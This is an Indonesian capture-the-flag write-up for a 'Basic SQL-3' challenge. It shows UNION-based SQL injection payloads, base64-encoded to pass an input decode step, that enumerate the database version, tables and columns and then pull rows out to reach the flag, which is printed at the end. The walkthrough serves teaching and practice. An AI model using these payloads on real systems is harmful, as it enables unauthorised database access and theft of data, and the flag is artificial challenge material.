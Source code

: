 <h1><b>Basic SQL-3</h1></b>
<pre>
Select Form (username)
</pre>
</b><h3>Solution</h3></b>
<p>Perhatikan URL ketika kita submit, disana terdapat encode base64 contohnya <b>YWRtaW4=</b> yang jika didecode itu merupakan <b>admin</b>, dan berikut hasil masing2 decode selection</p>
<pre>
YWRtaW4= --> admin
ZXJpY2s= --> erick
cm9iZXJ0 --> robert
YWxiZXJ0 --> albert
</pre>
<p align='justify'>Jika kita coba melakukan injection hasilnya null(tidak terjadi apa2), Sepertinya terdapat proses decode sebelum data input diterima oleh database MySQL, contohnya jika kita input <b>YWRtaW4n</b>
akan error karena yang kita input mengandung perintah injection yaitu <b></b></p>
<pre>
admin' |-->| YWRtaW4n
</pre>
<p align='justify'> sepertinya kondisi ini hanya berlaku menggunakan union injection, pertama cari banyak column pada table, dan jangan lupa encode ke base64 sebelum melakukan injection </p>
<pre>
1' union select 1,2 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiAtLSAt 
1' union select 1,2,3 -- - |-->| MScgdW5pb24gc2VsZWN0IDEsMiwzIC0tIC0=
</pre>
<p align='justify'>Setalah mendapatkan seluruh nilai tanpa error, sekarang ganti setiap nilai menjadi setiap query, Lakukan injection lagi dan jangan lupa encode terlebih dahulu</p>

```mysql
MariaDB [CTF]> select version();
+-------------------+
| version()         |
+-------------------+
| 10.3.23-MariaDB-1 |
+-------------------+
1 row in set (0.000 sec)

MariaDB [CTF]> select database();
+------------+
| database() |
+------------+
| CTF        |
+------------+
1 row in set (0.000 sec)
```
<pre>
1' union select version(),database(),3 -- - |-->| MScgdW5pb24gc2VsZWN0IHZlcnNpb24oKSxkYXRhYmFzZSgpLDMgLS0gLQ==
</pre>
<p align='justify'>Dan mendapatkan version database yaitu 10.3.23-MariaDB-1 dan nama database yaitu CTF, selanjutnya lakukan injection untuk table dari database CTF</p>

```mysql
MariaDB [CTF]> select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF';
+------------------------------------------------------------------------------------------------------------------+
| group_concat(TABLE_NAME)                                                                                         |
+------------------------------------------------------------------------------------------------------------------+
| *************************************,SQL_Challenge4,*********************************************************** |
+------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA='CTF'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KFRBQkxFX05BTUUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLlRBQkxFUyB3aGVyZSBUQUJMRV9TQ0hFTUE9J0NURicpLDIsMyM=
Hasilnya
SQL_Challenge4
</pre>
<p align='justify'>Setelah mendapatkan Table name, sekarang kita mencari column dari table yang sudah didapatkan</p>

```mysql
MariaDB [CTF]> select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4';
+---------------------------+
| group_concat(COLUMN_NAME) |
+---------------------------+
| id,username,level         |
+---------------------------+
1 row in set (0.001 sec)
```
<pre>
1' union select (select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='SQL_Challenge4'),2,3# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KENPTFVNTl9OQU1FKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS5DT0xVTU5TIHdoZXJlIFRBQkxFX05BTUU9J1NRTF9DaGFsbGVuZ2U0JyksMiwzIw==
Hasilnya
id,username,level
</pre>
<p>Selanjutnya Injection masing-masing field dengan nama column yang sudah didapatkan</p>
<pre>
1' union select (select id from SQL_Challenge4 limit 0,1),(select username from SQL_Challenge4 limit 0,1),(select level from SQL_Challenge4 limit 0,1)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCAwLDEpIw
Hasilnya
Your ID : 1 
Username : admin 
Group : administrator
</pre>
<p align='justify'>Jika limit 0,1 menghasilkan field admin, dan banyak field yaitu yang ditampilkan pada form sebanyak 3,3. Mari kita periksa field 4,4</p>

```mysql
MariaDB [CTF]> select id from SQL_Challenge4 limit 4,4;
+----------+
| id       |
+----------+
| 13371337 |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select username from SQL_Challenge4 limit 4,4;
+----------+
| username |
+----------+
| Venom    |
+----------+
1 row in set (0.000 sec)

MariaDB [CTF]> select level from SQL_Challenge4 limit 4,4;
+-----------------------------+
| level                       |
+-----------------------------+
| VenomCTF{Un10n_m4k3_me_cry} |
+-----------------------------+
1 row in set (0.000 sec)
```
<pre>
1' union select (select id from SQL_Challenge4 limit 4,4),(select username from SQL_Challenge4 limit 4,4),(select level from SQL_Challenge4 limit 4,4)# |-->| MScgdW5pb24gc2VsZWN0IChzZWxlY3QgaWQgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgdXNlcm5hbWUgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpLChzZWxlY3QgbGV2ZWwgZnJvbSBTUUxfQ2hhbGxlbmdlNCBsaW1pdCA0LDQpIw==
Hasilnya
Your ID : 13371337
Username : Venom
Group : VenomCTF{Un10n_m4k3_me_cry}
</pre>
<p>Ternyata dugaan kita benar bahwa field 4,4 benar berisi flag</p>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{Un10n_m4k3_me_cry}
</pre>
